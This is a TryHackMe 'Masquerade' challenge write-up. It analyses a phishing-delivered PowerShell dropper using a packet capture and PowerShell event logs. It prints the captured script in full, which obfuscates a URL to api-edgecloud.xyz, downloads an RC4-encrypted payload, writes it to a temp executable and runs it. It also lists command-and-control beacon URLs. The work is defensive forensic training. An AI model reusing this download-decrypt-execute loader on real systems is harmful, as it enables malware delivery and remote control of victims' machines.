





# Masquerade

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Medium
Tags: Linux
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Premium
Description:
Our company may have been compromised, we need your help ASAP.
```

Room link: [https://tryhackme.com/room/masquerade](https://tryhackme.com/room/masquerade)

## Solution

### Task 1: Scanario

Jim from the Finance department received an email that appeared to come from the company’s system administrator, asking him to run a script to “**apply critical security updates**.” Trusting the message, Jim executed the script on his workstation. Shortly after, unusual network traffic and system activity were observed. You have been provided with relevant artifacts to investigate what happened, determine the impact, and identify how the attacker established control over the system.

**Important!**: These artifacts contain **real malware**; however, the challenge can be completed entirely through static analysis, and there is no need to run or execute any of the files. Despite that, analysis should still be conducted in a **controlled environment** such as a lab machine (**VM**).

---------------------------------------------------------------------------------------

### Task 2: Challenge - Questions

**Good Luck Detective**!

---------------------------------------------------------------------------------------

The given `attachments.zip` file contains two files:

- An event log file called `Powershell-Operational.evtx`
- A PCAP-file called `traffic.pcapng`

#### What external domain was contacted during script execution?

We can get an overview of the DNS-queries and their responses with `tshark`:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Masquerade]
└─$ tshark -Y dns.a -T fields -e dns.qry.name -e dns.a -r traffic.pcapng | sort | uniq -c | sort -rn 
      2 www.bing.com    23.222.17.173,23.222.17.172
      2 www.bing.com    23.222.17.172,23.222.17.173
      2 th.bing.com     23.222.17.173,23.222.17.172
      2 srtb.msn.com    204.79.197.203
      2 img-s-msn-com.akamaized.net     23.223.17.202,23.223.17.207
      2 edge.microsoft.com      150.171.28.11,150.171.27.11
      2 c.msn.com       150.171.110.17
      2 assets.msn.com  23.223.17.176,23.223.17.169
      1 sb.scorecardresearch.com        18.67.39.75,18.67.39.3,18.67.39.119,18.67.39.106
      1 sb.scorecardresearch.com        18.67.39.106,18.67.39.119,18.67.39.3,18.67.39.75
      1 r.msftstatic.com        150.171.28.10,150.171.27.10
      1 r.bing.com      23.222.17.172,23.222.17.173
      1 ntp.msn.com     23.223.17.176,23.223.17.167
      1 edge.microsoft.com      150.171.27.11,150.171.28.11
      1 edge-consumer-static.azureedge.net      150.171.110.18
      1 c.bing.com      150.171.28.10,150.171.27.10
      1 c.bing.com      150.171.27.10,150.171.28.10
      1 browser.events.data.msn.com     13.89.179.14
      1 api.msn.com     150.171.27.12,150.171.28.12
      1 api-edgecloud.xyz       34.174.85.91
```

The domain that stands out is the last one `api-edgecloud.xyz` with its TLD `.xyz`.

Answer: `api-edgecloud.xyz`

#### What encryption algorithm was used by the script?

The answer is likely in the EID 4104 (PowerShell scriptblock execution) events.

We can search for anything related to `update`:

```powershell
PS C:\Users\Admin\Desktop> $search = "update"
PS C:\Users\Admin\Desktop> Get-WinEvent -FilterHashtable @{path='PowerShell-Operational.evtx';id=4104} |
>>     Where-Object { $_.Message -match $search } |
>>     Format-Table -AutoSize -Wrap


   ProviderName: Microsoft-Windows-PowerShell

TimeCreated           Id LevelDisplayName Message
-----------           -- ---------------- -------
2026-04-10 07:28:23 4104 Verbose          Creating Scriptblock text (1 of 1):
                                          $k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))
                                          $h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\'+'s'),''
                                          $b = for($x=0; $x -lt $h.Length; $x+=2) { [Convert]::ToByte($h.Substring($x, 2), 16) }

                                          $s = 0..255
                                          $j = 0
                                          for ($i = 0; $i -lt 256; $i++) {
                                              $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256
                                              $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
                                          }

                                          $i = $j = 0
                                          $d = foreach ($byte in $b) {
                                              $i = ($i + 1) % 256
                                              $j = ($j + $s[$i]) % 256
                                              $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
                                              $byte -bxor $s[($s[$i] + $s[$j]) % 256]
                                          }

                                          $p = $env:TEMP + '\amdfendrsr.exe'
                                          [System.IO.File]::WriteAllBytes($p, $d)
                                          Start-Process $p

                                          ScriptBlock ID: f3e51d8b-a580-40a4-ab12-4384c40ca729
                                          Path: C:\Users\jim\Downloads\updates.ps1
2026-04-10 07:28:23 4104 Verbose          Creating Scriptblock text (1 of 1):
                                          .\updates.ps1

                                          ScriptBlock ID: cd9ab053-2906-4173-9346-813b5561a628
                                          Path:


PS C:\Users\Admin\Desktop>
```

After some research, this part of the code was identified as [KSA](https://en.wikipedia.org/wiki/RC4#Key-scheduling_algorithm_(KSA)):

```powershell
        $s = 0..255
        $j = 0
        for ($i = 0; $i -lt 256; $i++) {
            $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256
            $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
        }
```

And this part as [PRGA](https://en.wikipedia.org/wiki/RC4#Pseudo-random_generation_algorithm_(PRGA)):

```powershell
        $i = $j = 0
        $d = foreach ($byte in $b) {
            $i = ($i + 1) % 256
            $j = ($j + $s[$i]) % 256
            $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
            $byte -bxor $s[($s[$i] + $s[$j]) % 256]
        }
```

Together they form a [RC4](https://en.wikipedia.org/wiki/RC4) stream cipher.

Answer: `RC4`

#### What key was used to decrypt the second-stage payload?

The key is constructed on this line:

`$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))`

which is just a string concatenation and then convertion to bytes.

Answer: `X9vT3pL2QwE8xR6ZkYhC4s`

#### What was the timestamp of the server response containing the payload?

The HTTP-request is formed on this line:

`$h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\'+'s'),''`

We can then search for it in the PCAP-file:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Masquerade]
└─$ tshark -Y 'http.request.uri contains "amd.bin"' -r traffic.pcapng
 1655 2026-04-10 05:28:23.369433900    10.0.2.15 → 34.174.85.91 HTTP 128 GET /amd.bin HTTP/1.1 
 1675 2026-04-10 05:28:23.472516400 34.174.85.91 → 10.0.2.15    HTTP 1446 HTTP/1.0 200 OK 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Masquerade]
└─$ tshark -Y 'http.request.uri contains "amd.bin"' -r traffic.pcapng -O http
Frame 1655: 128 bytes on wire (1024 bits), 128 bytes captured (1024 bits) on interface \Device\NPF_{B26C8B3B-E780-4E96-A6D8-CF436020D3CE}, id 0
Ethernet II, Src: PCSSystemtec_93:c1:26 (08:00:27:93:c1:26), Dst: 52:55:0a:00:02:02 (52:55:0a:00:02:02)
Internet Protocol Version 4, Src: 10.0.2.15, Dst: 34.174.85.91
Transmission Control Protocol, Src Port: 49900, Dst Port: 80, Seq: 1, Ack: 1, Len: 74
Hypertext Transfer Protocol
    GET /amd.bin HTTP/1.1\r\n
        Request Method: GET
        Request URI: /amd.bin
        Request Version: HTTP/1.1
    Host: api-edgecloud.xyz\r\n
    Connection: Keep-Alive\r\n
    \r\n
    [Full request URI: http://api-edgecloud.xyz/amd.bin]

Frame 1675: 1446 bytes on wire (11568 bits), 1446 bytes captured (11568 bits) on interface \Device\NPF_{B26C8B3B-E780-4E96-A6D8-CF436020D3CE}, id 0
Ethernet II, Src: 52:55:0a:00:02:02 (52:55:0a:00:02:02), Dst: PCSSystemtec_93:c1:26 (08:00:27:93:c1:26)
Internet Protocol Version 4, Src: 34.174.85.91, Dst: 10.0.2.15
Transmission Control Protocol, Src Port: 80, Dst Port: 49900, Seq: 17244, Ack: 75, Len: 1392
[14 Reassembled TCP Segments (18635 bytes): #1657(203), #1658(1420), #1660(1420), #1661(1420), #1662(1420), #1664(1420), #1665(1420), #1666(1420), #1668(1420), #1669(1420), #1671(1420), #1672(1420), #1674(1420), #1675(1392)]
Hypertext Transfer Protocol
    HTTP/1.0 200 OK\r\n
        Response Version: HTTP/1.0
        Status Code: 200
        [Status Code Description: OK]
        Response Phrase: OK
    Server: SimpleHTTP/0.6 Python/3.11.2\r\n
    Date: Fri, 10 Apr 2026 05:28:23 GMT\r\n
    Content-type: application/octet-stream\r\n
    Content-Length: 18432\r\n
        [Content length: 18432]
    Last-Modified: Fri, 10 Apr 2026 05:24:11 GMT\r\n
    \r\n
    [Request in frame: 1655]
    [Time since request: 0.103082500 seconds]
    [Request URI: /amd.bin]
    [Full request URI: http://api-edgecloud.xyz/amd.bin]
    File Data: 18432 bytes
Data (18432 bytes)
```

The timestamp is found on the `Date:` header line:

`Date: Fri, 10 Apr 2026 05:28:23 GMT\r\n`

Answer: `Fri, 10 Apr 2026 05:28:23 GMT`

#### What is the SHA-256 hash of the extracted and decrypted payload?

We start by exporting the `amd.bin` response from Wireshark via `Export Objects` -> `HTTP...` in the `File`-menu:



Select the `amd.bin` line and click `Save`.

Next, we re-use most of the PowerShell code from the event but change it to:

- Read from our saved file
- Don't execute the result at the end
- Print the SHA256-hash for us

```powershell
$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))

# Changed to read from amd.bin file
$h = Get-Content '.\amd.bin' -Raw 
$h = $h -replace ('\'+'s'),''

$b = for($x=0; $x -lt $h.Length; $x+=2) { [Convert]::ToByte($h.Substring($x, 2), 16) }

$s = 0..255
$j = 0
for ($i = 0; $i -lt 256; $i++) {
  $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256
  $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
}

$i = $j = 0
$d = foreach ($byte in $b) {
  $i = ($i + 1) % 256
  $j = ($j + $s[$i]) % 256
  $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
  $byte -bxor $s[($s[$i] + $s[$j]) % 256]
}

# Changed to output folder
$p = 'Z:\Wargames\TryHackMe\Challenges\Medium\Masquerade\amdfendrsr.exe'

[System.IO.File]::WriteAllBytes($p, $d)

# Added SHA256 calculation of resulting file
Get-FileHash '.\amdfendrsr.exe' -Algorithm SHA256
```

Then we execute our script.

```powershell
PS Z:\Wargames\TryHackMe\Challenges\Medium\Masquerade> .\decode.ps1

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB       Z:\Wargames\TryHackMe\Challenges\Medium\Masquerade\amdfendrsr.exe


PS Z:\Wargames\TryHackMe\Challenges\Medium\Masquerade>
```

Answer: `E3D39D42DF63C6874780737244370BA517820F598FD2443E47FF6580F10C17CB`

#### What remote URL did the client use to communicate with the victim machine?

To get an overview of all the HTTP-requests we can use `tshark` as follows:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Masquerade]
└─$ tshark -Y 'http.request' -T fields -e http.request.full_uri -r traffic.pcapng | sort | uniq -c | sort -rn 
     17 http://34.174.57.99/
      1 http://api-edgecloud.xyz/amd.bin
      1 http://34.174.57.99/images?guid=UVRNZUdTS0ozRzRaUGNlaGhLRUd0aXl2R3Zub2N2YW5UZTh3ZmorMEx1WXBPdEIvL1BSSzZ1RW5oN0EvMTIxRUJ3Z3NQZk5Yb2d0VUYxOTV0MFZ1SUZDZ1cwcnRHYzlCYlFLK1NzTWd1NVE9
      1 http://34.174.57.99/images?guid=K2FZUkhHSUlLRDJsNlZ1K3NGcUtqS3U3ZlJPN1FJdDdsSlUwSzNTbithaTBOQ2gwNEs1ZjhiSklET3NuaTVKYlk3TXZYem1Rd05nVWlDV2tCbzVhTGswaTRGZ2pjUzJVMWt0aHFSL3JvUTFVUUZWMVBnRVZmdGt6ajF3OXdmaXI1clBRYzFMQkRYR1V1Q2o2WDVKWFN6bnl3bVhJZE9uR01GQ0d3OFd5dGh6WGsyU2t6TnphcC82cHE0NUhYMTVESkxQOEM5cXJXTTdZUmt6aEJrb0JpQi90RUJKWm1YWUV1ODJpYkUzN0FwQVBidzVxZlhtVlVBNUVrZE5SUGpoaDhkYm1ZQjhmOGhObmFaVmx0a2tCUmZIa2s1a1N4S1ZqbTRjdkhGSXJrVHkrQ2cyZUdKd0NaOGFzRFNGYmQ0YVc1S29aWXBLZkMrYmYzaEp3Mnk3OWdIR0lEejY2NUs4dTRuT3YvWVBZZUJCVWVuTVR3Q3FGNXRDM1Z0UTlyYXdPVlBvOEtVZ0JRWnJmVGZEUEJmRTdvZmtGY0NxY05rMmxHQ2lMZnowSlVxNEdaR1IvVFNyclJiTHhNakhTK3RDeUFsVjNkdHJHSEhJUy95aUNQZDA3dDErUUJSbHJRSHdQcGlPTTlCMVgvZisyTDQyTENObXp1aGJ4bFlOL0JCbjJBL1lyZjNmejZrVXp5Y1VVQXVKNVR3TENjTm0yRHFGajdBU1dOVCs3ZUFVQldBWFNGdllsQTdHOGxMVTNPeEppNWVxWGxKZ204ZSttTkVwM0RSQkYyMjAxOVBpYnFtcDFsRjJLcXFBdncxOTZETGpaZEQ1eUJHaXV4TFh3VGE1UTZNWXRJbXRYc29RL3pRL0RteFF2VndPRk5xVHRscElnQzByR1hqcVF6bTdPVCthUUZKL3pEcFVqVHNRMW54ZXBOYTFhSkU5VXl5L3BtVXFLR3pWcTc1RXpORXF4d280TTJ3M21BK09paW5nQ0xEZktmcGZyR0JHZ2Y1WjQvQUl3cXZsc2R6NlhTcEZMSkhLM0pLMGh4UUJYK2I0aG1NK25BZCtiUXI5aGVtMXgwUVNLQkVnNFFMZ2J0ejVLbW5DL3JSY3FRVkVvaHViamxzdE96Vm5LOG54UDNRL3BQRkczeWpaRUFLdURBeGdVYWlMN2xOYXVXbHFQSFZ3MUxrRFFXZEZRZGZ0Zy80d0JWZXZtcUNrWFRieStrZm9oWE5OU0dOa0kyRUwyRndic1N3Y2tGSlN1bC9kdWRQMVlpQzVEU09tTFJMak5EKy92aGhhajZNUnkwdnZDOU1ZNnRZMGE3VkhEb0NYYllxWG0rMzZBSVQ0TXE2N2xDZWcvUUhwWFY5ZkNmYXdKSWJFZkR3YU9VbVJnTzY4bmFKaHlDdDBWZmlSeUl1anpTb2hjVGZFWEhqdnhsazRRQlNHREZUYWpiaUh3dVdtbmhCU2dYcFFveld1WmVVcXdRbXVNY0FCdmk4RFY1clFJREUrL3NJVmtDTTFuaVoweHBYM0txbDVRZU5CTnJEc2tQQzBaZ0hkdjFqT25wU0I0aWhVSFA4QTVtUG5qQXV2SzdaVEdUbS8wQWYxbk14ZWttTmI4ZmlPdXZkS1BGZFEzV2I5OUQ5WDJhc2RqWU1GeWtBSmYrOGd6U3dVNmlnOGtGbldsbG0zbDRBeDFjV1JUY0V1WHdDT2JOT3dKd3dha0prek9BVWc5V1J2dHVmWm82bG44ekVTRzJmRVBuUW9keTFkNjNOMnFBOFk3Tk93WTBRRjZVWWZWbVNRTXJ0cG95My9OeFJrNkNoYTNvYkxXU0F6czZJVjZGRDJaQWt2VStsK1hvckswSFdEeW9oZnBRenNLWXp1NFZzQkZjeEl4TUZhSGZOTzdtV1d6aHNIa2dIZmdIOVZmZmtxOWhqUUdUenB5OE5VblBybFFnbG1KUk53VHl1MnhKSmN2VVRhMk5rSXZBN0c4ODdaYVJEd1VlMkROOTV5OURUTloxZGRLRVZ1ZEppVDF0ajRQZXNsV21zUnFxMnJUVGpQbG4zMEgybTRyQ1liN1VmZ3RBdlBPNlNrNkpHVDFsMElDRFNUYTN5bVhJUDhWMHppKzZoRFhGNXU5eG5hMVZDN0FtUkhWcUl2OHpDV1VUR1dSa3h1Qk9XVDU1MGc3cjNoamVuSW1ENVpDTWpvRXhyUVJZVkVCR3pJdnpKa0JsVFFsTldVTzh4dDRnRDZyc0ZvWFVpNFF6b2xWb2Q1Q2JmL24vTXJNVGxqREFNb1RoUXAvd24rYjJsdHF4aTRUaWpTTFp6ZGlOQ01OcUxsalhuK0wvckNWU3ZkR0RVSmd0WG9QTGpoc3hFc0xxZGlMWW94MWNrYkJzbFV6Uk4xbHNOUG12ODFhcnFEQTRQWnVRYlNCYms1U3hjUjdFZXF1c3VhSjUwaWl1a2FrclZxN3ovbXVlTnIvK3B5UjMyUnhocUxNT3BRem93Q1ZMd0NCYm12LzhaM3BuWklCSFhPdFp4amw3U0FFZkNtSkt0bXk5TUhaUExIL3hxTWZnZFUzUkRkNTJONXREWE5oV05aZEwwdHdSN21YZEJPeVE4SE9RMmhmRlIwR1dKZ2xvckcwMEgzeUoraWE5RStqMzhWL3pQUkwvTFoxcUJ2WTlXRkpBbnlvU1E9PQ==
      1 http://34.174.57.99/images?guid=c09Gc3pZOGRaOGF6MWo4bUNKM0tGUktFK2t2b3dOOEtQR2hhWUF0VVlhcUdwWjl4RGJHNXR1UnkyRzdOTXptdQ==
      1 http://34.174.57.99/images?guid=bk8zVGkzeDhoR1BYMjl5S1MvUHJEdHFTaVBvUlE1Q05xNGFkNS8xRGE3U1hzenBCeDJOamNuc1lGRE1INEdtRERxYkNMc1BsWFlaT2RXbmpYV1l1RGpHenUvdjlkMStCSnV1VC91a1lZVjlGUjR3NVR1TklVOVVBZExkMktDQnRqa0xjSnlpUW9oc1F0REowNS9COC9wQjlSK0EvL20rMGt0RnBhYWxMQW9YeG5teEJ0am81QkphMTExSmdFcXI0THcwSlB0OHg5dk8wNXNrTk92WkczUVNNZ2JUSTlMdGlpL2E4Z0t3NlRCemkybXM4WEVhTlpoQWlEMU5nMTZad0JJVCtSZEN5Wlg1Rm5hUHczcEZDZFVhbEFnRDdraWd4L29XTTVqOVBZWEl3dFBOQk44Tkx6bzNGd054OU9oYlNGSEhvUXdabXdzT3l6L0xsR0g0Zy9UbWRkVlByME1BZnVGNmY0WmptOExCRE40Y2ZzamRwVmJ2MHR1dDc2ZjR2MGQzSVFZT2FadmoxdzJrNm05MTAxcHhJM1I4REw1WWVXRHR6bC9QZUpxU2E3Qis1KzJvSHl0M3FsY1kwaUVoZzJ0ekYyaW9qYVlrSUZjNXVXMmtqUk9rMzFVcVFGengyTzN0c21KTU80L1U0S2VrM3dEQnRESTRiaG5rRjFTZnVKN0ZQVmtxU3R1RVE5Z2tsc0pNS3o5YnoxUzRLOXNpZnhoT0JTVS84ZmFweFRVQ0o5YkprOUt1c2JEZzZyaTQ3Wk1JbVFVRXpxV2ZaU2wwYTZ0VE5TUm40N3FOOFJpbjh4ZzhCTnZyT0FsUHdYMjdxcytqeExJTDFmM1FDcWlNb01mOU4xaTIrT1FneE5TT0pDVzdjb05WSEk4L2JERWh0aWhPa3V0bC85WGZjL2lKVWV1TDVXclFESHp6Mzg2azN2UWxHQzFTQ3ppVHBoRFM2VTFmeXNHSXNINzlIOENYakl4RjBLR0x4RE5YNFE1Y2pGczZSWjJ3K3Exd3BUTjBsclpad3NQbUV1YUdjZ0JoUXNBbW1LQ3AxODhSSUFNK2NaVTV1Q2NBZXJ4dytyaDFkbWk0elVmQUdRM2tqb2RXMTBuaUhPend0UGlDazUycXlmWWlrblJKdW12SDRMbytsb1BXRjNJOWFQTkFBUU94VUE2UkMvZkxwM0g0bkFiNTdmRksrcFRlcHcwc25IVzFuY2RDcjJyZUF1TmEwWFpidkVuK2RoeEdUUU95UTZlakNjSnhUZm1lSEJzZ1phWGNzVUZ6SkZ5N2F1Vk1hYnprZUFTOHNnQWhNeDRzTTAwZlNubGUyOG8xQUdtNEF2eU91VW85eXNtY0ZiN3FyVTZhWldtSVJqdkpXdFRuLzRraC84UUQyc3V6UzlJK2pxWkw0RWFqNzNNRFFDMmhOMmljRFlKWFNnUDZ3b1hvR256RS9ZOERxR2RDY2NsdWJwMVRxcUlodEVYVFM1N3Z0Q2NYeU9VQ1VRNWt2U0tyUkdNRWRrYlpQaHVVN1J0SW9SYlhEUUZtTW5YNmdnMWR6YUZiOTJTR29IZ3VseVY3KzRYYUJRK0FtM1ZDdXg4aXNOWHZWTzZwSDFpWDNIaUFxTlIyT3hYc0J6V2xlME90M3pzTGN1ZzNpNWhUZGZib3BCaS93bWt4KzhocHljYnhzOWJCbEVneENiUlVwRUhyZVpoL0lVY3J4ZXNGYmlyeERBL25icjBmSVAwT2VlOEFXRWVUSjJNZVNUeCt4dkZwcWorVUE0S1l5ZGZQOVJMdWJQcndvTTRJaFIrL0VvQnBTVWxPWEZ3NXNVTnEzQVdDeDVHdFdiWHR2eEt2Zy9NVi9acFJNSkdXcW1IUWZVaTdBc0xTenhnRk9Icm1lMDhTZTNlWVVLcHlzMzhaSXg1STlNRjJRd2YxQ01oaVJ4a0xnTldDT0RjYmY0WU16R2YwTllKT05TWkV2dWYrRWtubWg1YU5OQzBtYiszRWs3dWxmVFlFMGhhMDJoUlk3Ty9odXp5bWZqNm8zTVd0YTk5R0kxSE9KdjNkcU5IYWNqOElTcEdjSTliTC9DamtxWUpqR2YreWEySVhQODhkc3ptN2N5cUplUDZENCtTR211YXlJcWtmK0ZqVk9vMVpWc2liZnVUTXIwd1laemF6RW1icERWc1U3d1J0cEsvTjNMZFV4MFhXTFJTZ0ZTNkNSVHFLc3pWRnlrTnFHeEYrdVBQM2Y1UGNqWmxjcGV1L1VqTlJEbVhoRjM3NnJTNzkrRE9wN015dXFhUVhKNlFzWENFVlhxbVArUnV2cHBoOHlWUHJxZ0pkc2lEOHdJZXNIR1k3Znl6QmtJVFZUYjl4M0s2YU9pZzJ2clJEOVYzYnJHbzBIZ1MrbnZ2N05zNnlobTlkNDNsSjRQL2xNN0s5L2pXZGVjUi9xRWVpclo5WXhwd28vaFhJR0J3cDZQZVFxVFFzQnBqRGpxZkxlaVp4M2lKSXE5Ly9TY3R6QTIzUHdDdXZLbGNYNFlmWDYvVlkvZWVFTCtzZlN6UncyZ0JibnBRR2ZHaGEzZmpmTUFpM0o1aHBhVGJFWnpGVzJmY2VFYzlnMTFESzdWVWtaNnNUd2lLTUxsU0hLN3VSelV0cTJ2bGJtRjhiNi90ajNHdEE4ZS9YTm9WeGhVQ1NMUWZleE4waTMySzFQdUwwaTNmdGtkOVJtcEEyelgwSjhoTm93cjlFZDBoVHk2Nys5azFlcU41MEFWRFBIY3BFbDl1N1k0eXJ2RGV1WFRjZU93d1hUQm16L1ltV0tERlBJcVRLYU0yUzhIQmFOV1BSZXNNeEJua0xJTHpuOTc0TEgydUIvZzFJdUFvNmlaTU53UnZCQjhiNW9UN213aFBsY29KdzRBdmdvSXFUbkJjWUFoSHFnR1BEVzIxN25rb2pmM3VJT01XbU0zbU9RWkNOM2QyUmY3Zzh3K0NYL3NBUjlPMEVPdXFNYXBoTG4wMlNMRHFMOTA2RXU3ZkxTVkFXVzRwY0dGMm1pZGcwMjhjQ0RibXlCZFdRdkJSeHBJK1pIc2U5U0xnaWIxTlUwaUJ5UHFSemhsVzdzN2xML3NYYUdIVk9iUkFZUWJYMXErcjBrRkxHYXF2V1h5VitTOWJCSXJXc01lRlBCNVBEQWE1QS8xa243clpqZnA5aWR4Zm9jQlhUd2luaHlOYTZzcE9FUm5jd1F4a0xrK2pRNWZ5SGN6UXVlOTdaU3E5eUVPQkt0SGJOYlRmc1NsL1hZTzZ5a1dYeCtLY3NiVTNBanlzbXhsKzduTVBHYmttMnU4ZDVEdU5lWlArNEllWEdYUndzL3ZlQWpiLzRCN3k5YkRNZm5wYlRoRmY1Z0VkdldMM1lGcmlFZEZhYjEzeVZTdk9ObXBQVlFwd1d2MWo5Z3lZS2xPMklpVVpuTU9MbjZ2QTB1L1ZuNWFOb2FuTkUwdWpVdDR4dEhOK0xLQXNUQ29aL3VlK1ZZTEFGcWFSTExCWnUvajQ3ZmFYVFZIR2Fub0ZlMWNNUXBKK0k4